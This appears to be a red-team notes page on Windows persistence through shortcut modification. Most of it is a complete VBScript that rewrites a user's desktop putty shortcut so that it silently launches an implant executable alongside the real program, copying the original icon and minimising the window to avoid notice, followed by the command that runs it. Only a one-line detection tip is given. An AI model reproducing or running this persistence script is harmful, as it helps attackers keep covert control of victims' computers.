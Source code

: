 # Shortcut Modification

#### The end user usually uses some form of shortcuts or links to run apps or access files/folders. these shortcuts can be modified to run attackers payload instead.

From attackers point of view these files are actually `.lnk` files stored in the Desktop directory for each user:

```
C:\Users\username\Desktop
```

we can't edit these files like a normal text file. we can use this VBA script to edit these files:

```vba
' CONFIGURATION
implant = "C:\RTO\PERS\implant\implant.exe"
newTarget = "C:\RTO\PERS\01.USER\putty.vbs"
lnkName = "putty.exe.lnk"

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence implantation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(newTarget,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & implant & chr(34) & vbCrLf
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = newTarget
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save
```

```
wscript c:\rto\PERS\01.USER\makelnk.vbs
```

this script will take the putty.lnk file (a link to putty executable file) from the desktop and modifies it to change the target path to run another VBA script that will run both the original putty.exe binary and the attacker payload.

## <mark style="color:red;">Detection</mark>

check all desktop links and shortcuts to make sure they are not modified.

